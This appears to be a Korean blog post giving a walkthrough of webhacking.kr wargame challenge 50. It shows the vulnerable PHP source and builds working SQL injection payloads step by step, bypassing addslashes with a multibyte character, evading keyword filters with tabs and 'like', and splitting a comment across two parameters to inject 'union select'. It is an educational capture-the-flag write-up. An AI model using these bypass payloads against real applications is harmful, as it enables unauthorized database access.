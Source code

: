 ```yaml
---
title: "[webhacking.kr] 50번 문제 풀이[sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "50번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 50번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152800629-e4705d63-a9d3-4697-b4b0-62419191d9f5.png)

  ```php
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']); 
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    foreach($_GET as $ck) if(preg_match("/from|pw|\(|\)| |%|=|>|</i",$ck)) exit();
    if(preg_match("/union/i",$_GET['id'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select lv from chall50 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      if($result['lv']==1) echo("level : 1<br><br>");
      if($result['lv']==2) echo("level : 2<br><br>");
    } 
    if($result['lv']=="3") solve(50);
    if(!$result) echo("Wrong");
  }
?>
  ```

# 문제 풀이
  injection을 해야하는 sql 문 부터 보면 다음과 같습니다.

  ```sql
select lv from chall50 where id='{}' and pw=md5('{}')
  ```

  우선 GET['id']의 경우 addslashes() 함수 이후에 mb_convert_encoding함수를 사용하여 UTF-8로 인코딩을 바꿔줬기 때문에 multibyte encoding을 이용하여 addslashes() 함수를 우회할 수 있습니다. 이를 이용해서 id에 익젝션을 수행할 쿼리문을 작성합니다.

  ```sql
id=%aa' or lv=3--%20
  ```

  쿼리문에서 문제에서 preg_match로 필터링 하는 문자를 우회하도록 바꿔줍니다. 
  
  **공백 -> %09** , **= -> like**

  ```sql
id=%aa'%09or%09lv%09like%093--%09
  ```

  쿼리문을 수행해 봤더니 다음과 같이 안됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/152801787-2c8a9cb4-49b3-4aed-afb8-949597d16116.png)

  혹시 테이블에 lv=3인 데이터가 없는지 확인해 보기 위해서 like 3 을 like 2로 바꿔서 해봤더니 like 2 는 성공적으로 수행됩니다.
  
  ![image](https://user-images.githubusercontent.com/33647663/152802015-6ad5c2d4-4750-4056-a11f-d3f766c88cf7.png)


  즉, 테이블에 lv = 2인 데이터는 있기 때문에 나온 것이고 lv=3인 데이터는 없기 때문에 안나온 것입니다.

  테이블에 데이터가 없기 때문에 **union select** 구문을 이용해야 합니다.

  하지만 이번 문제에서 가장 까다로운 조건이 하나 붙어 있었습니다. 다음 조건 때문에 id에는 union을 사용할 수 없었습니다.

  ```php
if(preg_match("/union/i",$_GET['id'])) exit();
  ```

  그렇기 때문에 pw를 통해서 union select 구문을 수행시켜야 합니다.

  이번 문제를 풀기위한 아이디어는 **주석**을 사용하는 것입니다. 다음과 같이 id 와 pw 사이에 ```/* */```를 끼워 넣습니다.

  ```sql
select lv from chall50 where id='%aa'/* and pw=md5('*/')
  ```
   
  그러면 pw 쪽에서 ```'```가 지워지기 때문에 쿼리문을 작성할 수 있습니다.

  - id : %aa'/*
  - pw : */union%09select%093%23

  위와 같이 쿼리문을 만들어서 서버로 전송하면 다음과 같이 문제가 클리어 됩니다.
  
![image](https://user-images.githubusercontent.com/33647663/152832453-87bd0d8c-fef7-4bbd-a180-11b7ea30e04e.png)